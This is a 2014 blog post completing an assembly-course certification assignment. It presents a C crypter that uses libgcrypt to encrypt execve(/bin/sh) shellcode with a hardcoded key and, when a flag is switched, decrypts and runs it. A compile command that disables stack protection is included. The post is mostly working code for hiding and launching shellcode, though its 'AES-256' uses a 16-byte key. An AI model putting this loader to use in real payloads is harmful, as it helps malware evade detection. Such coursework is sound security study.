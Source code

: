 ```yaml
---
author: pol@blog
comments: true
date: 2014-05-12 12:01:03+00:00
layout: post
slug: slae-assignment-7-custom-crypter
title: 'SLAE Assignment 7: Custom Crypter'
wordpress_id: 2425
categories:
- Programmazione
- SLAE
---
```


This is the last assignment necessary to accomplish the [SecurityTube Linux Assembly Expert](http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/index.html) certification. The instructions for this assignment are:

	
  1. Create a custom crypter like the one shown in "crypters" video

	
  2. Free to use any existing encryption schema

	
  3. Can use any programming language


I chose to use C and libgcrypt for this task.

Here is the source code for the encryption and decryption:

```c
    //Description:	Assignment #7 (PoC of Crypter using AES-256)
    //Author: 		Paolo Stivanin <https://github.com/polslinux>
    //SLAE ID:		526
    
    #include <stdio.h>
    #include <string.h>
    #include <gcrypt.h>
    #include <stdint.h>
    
    #define ENC 1
    
    static void crypt(int, size_t, uint8_t *);
    
    uint8_t origShell[] = "\xeb\x25\x5e\x89\xf7\x31\xc0\x50\x89\xe2\x50\x83\xc4\x03\x8d\x76\x04\x33\x06\x50\x31\xc0\x33\x07\x50\x89\xe3\x31\xc0\x50\x8d\x3b\x57\x89\xe1\xb0\x0b\xcd\x80\xe8\xd6\xff\xff\xff\x2f\x2f\x62\x69\x6e\x2f\x73\x68";
    #if !ENC
    	uint8_t encShell[] = "";
    #endif
    uint8_t iv[] = {0x01,0x02,0x03,0x01,0x02,0x03,0x01,0x02,0x03,0x01,0x02,0x03,0x01,0x02,0x03,0x04};
    uint8_t ctr[] = {0x02,0x04,0x01,0x01,0x02,0x09,0xf1,0xc2,0x03,0x01,0x02,0xdd,0xec,0x02,0x03,0x04};
    const char *key = "securitytubeSLAE";
    
    int main(void){
    	int i, ag = gcry_cipher_map_name("aes256");
    	size_t ln = strlen(origShell);
    	uint8_t *buf = malloc(ln);
    
    	crypt(ag, ln, buf);
    	#if ENC
    		for(i=0; i<ln; i++){
    			printf("\\x%02x", buf[i]);
    		}
    		printf("\n");
    	#else
    		int (*ret)() = (int(*)())buf;
    		ret();
    	#endif
    
    	free(buf);
    
    	return 0;
    }
    
    static void crypt(int algo, size_t len, uint8_t *buf){
    	gcry_cipher_hd_t hd;
    	gcry_cipher_open(&hd, algo, GCRY_CIPHER_MODE_CTR, 0);
    	gcry_cipher_setkey(hd, key, 16);
    	gcry_cipher_setiv(hd, iv, 16);
    	gcry_cipher_setctr(hd, ctr, 16);
    	#if ENC
    		gcry_cipher_encrypt(hd, buf, len, origShell, len);
    	#else
    		gcry_cipher_decrypt(hd, buf, len, encShell, len);
    	#endif
    	gcry_cipher_close(hd);
    }
```

I chose to use AES-256 to encrypt the shellcode (origShell , it contains the shellcode execve(/bin/sh, NULL, NULL) ). You can customize the encryption data by changing the iv , ctr  and key .

If you want to decrypt and run the shellcode you only need to change `#define ENC 1`  to `#define ENC 0` and then write the encrypted shellcode inside encShell .

To compile the above source I used this command:

```
gcc PoC_Crypter.c -o crypter -lgcrypt -fno-stack-protector -z execstack
```

This is all for this assignment and also for the SLAE certification. It was very interesting and funny to dive into the art of shellcoding and reversing, I enjoyed a lot this course, thanks SecurityTube :-)

All the sources can be found in my [Github page](https://github.com/polslinux/SLAE/).


This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: [http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/](http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)

**Student ID: SLAE-526**
